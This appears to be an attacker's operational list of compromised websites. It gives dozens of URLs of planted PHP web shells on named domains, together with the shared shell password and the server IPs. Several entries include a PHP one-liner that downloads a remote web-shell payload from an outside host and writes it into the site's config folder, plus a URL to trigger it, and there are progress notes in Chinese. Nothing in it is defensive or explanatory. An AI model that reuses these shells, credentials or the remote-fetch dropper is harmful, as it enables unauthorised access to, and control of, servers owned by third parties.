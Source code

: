 
http://43.138.246.227/template/template_init.php |mmk123 
代码更新：0608 ✅
http://43.138.246.227/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://43.138.246.227/config/httpd.php?d=up

http://m21.coin14.top/template/template_init.php  big |mmm |  39.101.172.203  
http://zjnqxj.com/upload/attached/20200624/bam.php |mmk123 |  211.149.164.178
http://yhzheyang.com/e/source/functions.php |mmk123 |  211.149.164.178
http://yhboye.com/upload/attached/20191122/bam.php |mmk123 |  211.149.164.178
http://xjjdhm.com/upload/file/bam.php |mmk123 |  211.149.164.178
http://wlsisheng.com/e/script/m/photoswipe/bam.php |mmk123 |  211.149.164.178
http://tzzhcb.com/e/images/icon/bam1.php |mmk123 |  211.149.164.178
http://tzyttfsb.com/e/editor/plugins/file_manager/images/bam1.php |mmk123 |  211.149.164.178
http://tzyjtz.com/e/script/photoswipe/bam1.php |mmk123 |  211.149.164.178
http://tzxitong.com/e/editor/plugins/image/images/bam1.php |mmk123 |  211.149.164.178
http://tzsyfzzx.com/aspnet_client/system_web/4_0_30319/bam1.php |mmk123 |  211.149.164.178
http://tzrongfang.com/e/editor/plugins/image/images/bam1.php |mmk123 |  211.149.164.178
http://tzrfcc.com/e/editor/plugins/image/images/bam1.php |mmk123 |  211.149.164.178
http://tzmfmj.com/e/editor/plugins/file_manager/images/folder/bm.php |mmk123 |  211.149.164.178
http://tzmaijie.com/e/ckeditor/plugins/clipboard/dialogs/bm.php |mmk123 |  211.149.164.178
http://tzlymjg.com/e/editor/plugins/image/images/66.php |mmk123 |  211.149.164.178
http://tzlxdp.com/e/ckeditor/images/bm.php |mmk123 |  211.149.164.178
http://tzlongfute.com/e/ver.php |mmk123 |  211.149.164.178
http://tzlhhj.com/upload/attached/20200316/bm.php |mmk123 |  211.149.164.178
http://tzhylf.com/upload/attached/20191107/bm.php |mmk123 |  211.149.164.178
http://tzhc1688.com/e/editor/php/JSON.php |mmk123 |  211.149.164.178
http://tzdssj.com/e/images/icon/b62m.php |mmk123 |  211.149.164.178
http://tzcdmj.com/upload/attached/20191106/b62m.php |mmk123 |  211.149.164.178
http://rj-yh.com/upload/attached/20210402/gss.php |mmk123 |  211.149.164.178
http://pcoxy.com/e/images/login/b6m.php |mmk123 |  211.149.164.178
http://lhyfpx.com/e/editor/plugins/image/images/b6m.php |mmk123 |  211.149.164.178
http://lccltt.com/upload/b6m.php |mmk123 |  211.149.164.178
http://dosejd.com/e/highslide/graphics/outlines/b6m.php |mmk123 |  211.149.164.178
http://cy-zdh.com/upload/attached/20200419/b6m.php |mmk123 |  211.149.164.178
http://cy-zdh.com/e/assets/bootstrap/js/b6m.php |mmk123 |  211.149.164.178
http://cndysm.com/upload/m1.php |mmk123 |base64_send | 211.149.164.178
http://cheshi2.tzynwl.com/template/template_init.php |mmk123 |  211.149.164.178

https://www.sdbcsw.com/apps/home/model//m1.php |mmk123 |  39.107.65.243
代码更新：0608 ✅
https://www.sdbcsw.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.sdbcsw.com/config/httpd.php?d=up

https://www.maifusd.com/static/upload/image/20231219/m1.php |mmk123 |  39.107.65.243
代码更新：0608 ✅
https://www.maifusd.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.maifusd.com/config/httpd.php?d=up
